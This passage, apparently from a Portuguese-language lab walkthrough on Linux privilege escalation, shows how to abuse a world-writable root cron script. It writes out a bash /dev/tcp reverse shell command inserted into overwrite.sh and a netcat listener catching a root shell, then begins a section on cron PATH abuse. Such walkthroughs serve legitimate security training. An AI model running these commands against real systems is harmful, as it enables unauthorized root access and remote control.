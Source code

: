 O arquivo `/etc/crontab` contém uma entrada para o script `overwrite.sh` que é executado a cada minuto. Vamos verificar as permissões desse arquivo:

```bash
user@debian:~$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

Podemos ver que o arquivo `overwrite.sh` é executável e pode ser escrito por qualquer usuário. Vamos alterar o conteúdo do arquivo para que ele execute o comando `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1` que abre uma shell reversa nós:

```bash
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Agora vamos usar o netcat para escutar na porta 4444 com o comando `nc -nvlp 4444` e esperar a shell reversa:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop                                                                                                   07:01:19
╰──➤ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.152.135] 40438
bash: no job control in this shell
root@debian:~# whoami
whoami
root
```

Antes de concluir temos que remover o conteúdo do arquivo `overwrite.sh` para que ele não seja executado novamente

E para concluir esse passo basta clicar no botão `Complete`.

---

## **<a id="9"> • Cron Jobs - PATH Environment Variable.</a>**

Nesse topico também vamos explorar a escalação de privilégios através de uma falha nas Cron jobs.

Ao analisar as `crontabs` do sistema, podemos ver a variável de ambiente começa com `/home/user` que é o diretório do usuário `user`.

```bash
user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```